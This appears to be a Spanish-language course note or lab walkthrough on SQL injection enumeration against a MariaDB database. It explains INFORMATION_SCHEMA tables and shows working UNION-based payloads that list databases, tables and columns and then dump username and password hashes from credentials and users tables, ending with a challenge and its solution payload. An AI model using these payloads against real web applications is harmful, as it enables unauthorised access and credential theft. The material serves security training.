







# Database Enumeration
## MySQL Fingerprinting

Despues de enumerar la base de datos, necesitamos identificar el tipo de DBMS con la que estamos trabajando, esto debido a que cada DBMS tiene diferentes queries.

Como vimos en la seccion anterior, cuando vimos la @@version, que nos arrojo.



Como salida se tiene **10.3.22-MariaDB-1ubuntu1** significa que estamos trabajando con MariaDB DBMS similiar a MySQL.

## INFORMATION_SCHEMA Database

Para realizar consultas usando **UNION, SELECT**, necesitamos usar correctamente los SELECT queries correctos, para eso necesitamos la siguiente información:

- Lista de bases de datos
- Lista de tablas dentro de cada base de datos
- Lista de columnas dentro de cada tabla

Con esta informaacion podemos usar la declaracio **SELECT** para obtener datos decualquier columna o tabla dentro de la base datos. Esta es la manera en la que podemos usar **INFORMATION_SCHEMA** database

**INFORMATION_SCHEMA** database contiene metadatos sobre las bases de datos y tablas presentes en el servidor, esta base de datos juega un papel crucial mientras exploramos con SQL injection. Pero en esta base de datos no podemos hacer llamadas directamente con el uso de **SELECT**, solo si sabemos especificamente el nombre de la tabla.

Entonces para referirnos a la tabla presente en la otra DB, podemos usar un punto **"."**, por ejemplo para **SELECT** la tabla **users** presnete en una base de datos llamada **my_database**, podemos usar:

```
SELECT * FROM my_database.users;
```

## SCHEMATA

Para iniciair la enumeracion, podemos encontrar DB disponibles en DBMS. La tabla **SCHEMATA** en **INFORMATION_SCHEMA** database, contiene informacion sobre todas las bases de datos en el servidor. Es usada para obtener los nombres de las bases de datos.

The SCHEMA_NAME column contains all the database names currently present.

```
mysql> SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA;

+--------------------+
| SCHEMA_NAME        |
+--------------------+
| mysql              |
| information_schema |
| performance_schema |
| ilfreight          |
| dev                |
+--------------------+
6 rows in set (0.01 sec)
```
Nota: Las primeras tres bases de datos son bases de datos MySQL predeterminadas y están presentes en cualquier servidor, por lo que normalmente las ignoramos durante la enumeración de bases de datos. A veces también hay una cuarta base de datos "sys".


ahora intentemos usar **UNION** SQL injection, con otros payloads.

```
cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -
```



Una vez mas vemos dos bases de datos **ilfreight** y **dev**. Ahora vamos a ver que base de datos esta ejecutando la aplicacion web para recuperar datos. Podemos encontrar la base de datos actual con la consulta **SELECT database()**

```
cn' UNION select 1,database(),2,3-- -
```



Como podemos ver la base de datos es ilfreight, como sea la otra base de datos **dev** se ve interesante, veamos que tablas contiene.

## TABLES

Antes de obtener los datos de la base de datos dev, necesitamos tener una lista de las tablas para realizar consultas con **SELECT**, para obtener todas las tablas dentro de la base de datos podemos usar la tabla **TABLES** en la base de datos **INFORMATION_SCHEMA**.


La tabla **TABLES** contiene informacion sobre todas las tablas dentro de la base de datos, dicha tabla contiene multiples columnas, pero nosotros estamos interesados en las columnas **TABLE_SCHEMA** Y **TABLE_NAME**. La columna **TABLE_NAME** contiene el nombre de las tablas, mientras que la columna **TABLE_SCHEMA** apunta a la base de datos a la que pertecene cada tabla, por ejemplo podemos usar el siguiente payyload para encontrar las tablas dentro de la base de datos dev.

```
cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -
```

Nota: se remplazo '2' y '3' por ´TABLE_NAME' que guarda el nombre de las tablas, 'TABLE_SCHEMA' indicando la base de datos y se agrega 'where table_schema='dev'' condicionando solo a mostrar tablas de la base de datos 'dev'



La imagen nos muestra que vemos 4 tablas dentro de dev:
- credentials
- posts
- framework
- pages

## COLUMNS

Para obtener la informacion de la tabla **credentiasl**, primero necesitamos el nombre de las columnas en la tabla, podemos encontrarla en la tabla **COLUMNS** en la base de datos **INFORMATION_SCHEMA**. La tabla **COLUMNS** contiene inforacion sobre todas las columnas presentes en toda la base de datos.

```
cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -
```



La tabla tiene dos columnas **username** y **password**.

## Data

Ahora ya que recopilamos toda la informacion podemos usar la solicitud **UNION** para obtener la informacion de las columnas **username** y **pasword**, de la tabla **credentials** en la base de datos **dev**.

```
cn' UNION select 1, username, password, 4 from dev.credentials-- -
```



## Reto

¿Cual es el password hash de 'newuser' guardado en la tabla 'users' en la base de datos 'ifreight'?

```
cn' UNION select 1, username, password, 4 from ilfreight.users-- -
```

